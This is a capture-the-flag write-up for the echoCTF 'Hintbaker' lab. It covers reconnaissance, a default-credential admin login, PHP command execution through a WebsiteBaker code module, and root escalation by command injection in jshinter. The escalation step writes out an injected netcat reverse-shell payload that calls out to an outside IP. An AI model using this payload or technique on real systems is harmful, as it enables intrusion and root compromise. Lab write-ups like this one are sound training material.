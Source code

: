 ```yaml
---
description: >-
  Hintbaker echoCTF Machine
title: Hintbaker (Intermediate)                # Add title here
date: 2025-02-21 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Hintbaker.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.10.10.103 sizzle.htb.local sizzle.htb htb.local
```

### Content

- Default Credentials
- Abusing WebsiteBaker CMS feature to execute PHP through an installed module
- Arbitrary Command Injection in jshinter v.0.0.8

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.226
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.226 ()   Status: Up
Host: 10.0.160.226 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.226
Nmap scan report for 10.0.160.226
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-22 01:19:34 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 41:a1:5f:d0:c5:6d:b3:fb:f1:59:3f:45:38:9e:25:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4P5ra4eQNZDqsg+ey9OvJrOFkEHVg+EwhmaLs9lqKT
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET
|_http-title: This website for this language (ES) is still under construction
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation
Only port 80 is open, so first I started checking on HTTP service, it seems that the page is under construction:

![](/assets/img/Pasted-image-20250222002145.png)

Then I `dirsearch` the web page to find any interesting webpage:
```bash
dirsearch -u http://hintbaker.echocity-f.com/   

Target: http://hintbaker.echocity-f.com/

[23:57:29] Starting:                                        
[23:58:03] 301 -  338B  - /account  ->  http://hintbaker.echocity-f.com/account/
[23:58:03] 200 -  773B  - /account/                                         
[23:58:03] 200 -    1KB - /account/login.php                                
[23:58:05] 301 -  336B  - /admin  ->  http://hintbaker.echocity-f.com/admin/
[23:58:07] 302 -    0B  - /admin/  ->  http://hintbaker.echocity-f.com/admin/start/index.php
[23:58:08] 302 -    0B  - /admin/index.php  ->  http://hintbaker.echocity-f.com/admin/start/index.php
[23:58:08] 301 -  342B  - /admin/login  ->  http://hintbaker.echocity-f.com/admin/login/
``` 

I then access to the `/admin` webpage and tried to login using Default Credentials, and I got the pair `admin:password1234`, once inside I started browsing through the interface while capturing my requests using BurpSuite, I did not identify anything like an administrative console, so I research online and found a exploit [WebsiteBaker 2.13.0 - Remote Code Execution (RCE) ](https://www.exploit-db.com/exploits/50310?utm_source=chatgpt.com). However, the exploit did not worked because the version of the app was 2.13.5, then I just tried by abusing the admin privileges.

First you'll need to go to the `Páginas` menu and create a webpage (you'll see all the created pages at `/` root path), I called mine `test3.php` with the option `Code v3.0.9`:
![](/assets/img/Pasted-image-20250222002721.png)

Then, I tried using php code, but there was an error `There was an uncatched exception syntax error, unexpected token "<", expecting end of file in line (1) of (/modules/code/view.php(32) : eval()'d code):` after searching for it, that means that we don't need to put all the PHP code but only what you want to execute inside the `eval()` function:
```bash
echo system('id');
```
Then if you go to `http://hintbaker.echocity-f.com/` you'll see your new page where the `id` command is executed:
![](/assets/img/Pasted-image-20250222003840.png)

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@hintbaker:/tmp$ sudo -l
Matching Defaults entries for www-data on hintbaker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on hintbaker:
    (ALL : ALL) NOPASSWD: /usr/bin/hintbaker
```
Its content is like this:
```bash
#! /usr/bin/env node
var hinter = require('jshinter');
var args = process.argv.slice(2);

jsLint=new hinter["lintJsFile"](args[0],args[1])();
console.log(jsLint);
```
The best bit of this script is the 'jshinter' library. I found the version of it by following the package.json file for the library, and this is what I found:
```bash
www-data@hintbaker:/usr/lib/node_modules/hintbaker/node_modules/jshinter$ cat package.json 
{
  "name": "jshinter",
  "version": "0.0.8",
  "description": "wrapper around JSHint that lets you call it from Node.",
  "main": "jshinter.js",
  "repository"    : {"type": "git", "url": "git@github.com:tborenst/jshinter.git"},
```
After some research about it, I came up with this [Arbitrary Command Injection](https://gist.github.com/icemonster/88eaf026cedb435408ca023a9d445de0), after some testing and some ChatGPT prompts I ended with this payload:
```bash
www-data@hintbaker:/tmp$ sudo /usr/bin/hintbaker '$(nc -e /bin/bash 10.10.5.122 1234) # \" || nc -e /bin/bash 10.10.5.122 1234 # \" || nc -e /bin/bash 10.10.5.122 1234'
```
AND WE ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials used on WebsiteBaker CMS are `admin:password1234`

### Notes

- It is really important to track where the software that might be vulnerable is located, specially on NodeJS, you can do this by check if there is a symlink on it, and if so the folder where the index.js is placed, then all you need to do is track the node_modules folder, the most common path is `/usr/lib/node_modules/hintbaker/node_modules/`.

### References

-  [WebsiteBaker 2.13.0 - Remote Code Execution (RCE) ](https://www.exploit-db.com/exploits/50310?utm_source=chatgpt.com)
-  [Arbitrary Command Injection](https://gist.github.com/icemonster/88eaf026cedb435408ca023a9d445de0)


